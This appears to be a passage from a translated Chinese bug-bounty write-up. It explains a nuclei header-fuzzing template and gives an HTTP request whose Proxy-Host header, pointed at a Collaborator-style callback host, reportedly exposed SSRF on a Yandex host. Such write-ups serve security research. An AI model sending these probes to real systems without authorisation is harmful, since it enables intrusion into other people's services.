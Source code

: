 让我们试着分析一下:

1.  有效载荷部分:

*   `header:`这里是 HTTP 头单词表，它被用于强制 HTTP 请求。

2.原始部分:

*   `/?&header&`它在 GET 请求中设置 HTTP 头，以便让用户知道现在使用的是什么 HTTP 头。
*   `&header&`它设置了请求中正在使用的报头
*   `{{interactsh-url}}`用于标识交互的 URL

最后，在使用 nuclei 完成自动化后，我能够使用以下请求在 Yandex 中找到 SSRF:

```
GET / HTTP/1.1
Host: example.vulnYandex.tld
User-Agent: someDevice
Accept: text/html
Accept-Encoding: gzip, deflate
Proxy-Host: burpcollaporator-url.net
Connection: close
```

如你所见，漏洞在标题:`Proxy-Host`中，我得到一个 HTTP 交互，如下所示:

![](img/c67582b36cba296c02a145fd3254f68c.png)
